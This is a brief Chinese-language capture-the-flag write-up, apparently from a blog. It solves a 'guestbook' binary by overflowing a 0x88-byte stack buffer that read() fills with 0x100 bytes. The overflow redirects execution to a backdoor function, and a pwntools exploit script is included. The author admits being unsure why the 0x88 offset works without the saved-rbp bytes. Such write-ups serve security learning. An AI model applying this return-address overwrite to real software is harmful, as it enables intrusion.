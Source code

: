 检测安全机制

![image-20201201212323957](https://static.hack1s.fun/images/2021/02/06/image-20201201212323957.png)

存在后门函数

![image-20201201212554219](https://static.hack1s.fun/images/2021/02/06/image-20201201212554219.png)

main函数里存在溢出

![image-20201201212627272](https://static.hack1s.fun/images/2021/02/06/image-20201201212627272.png)

read读了0x100，但是距离rbp只有0x88

直接返回到good_game

这里感觉很奇怪，长度0x88可以返回，但是不知道为什么不+8这个rbp的长度

```python
from pwn import *

io = process('./guestbook')
elf = ELF('./guestbook')

payload = bytes('a'*0x88,'ascii') + p64(elf.sym['good_game'])
io.sendline(payload)

io.interactive()
```

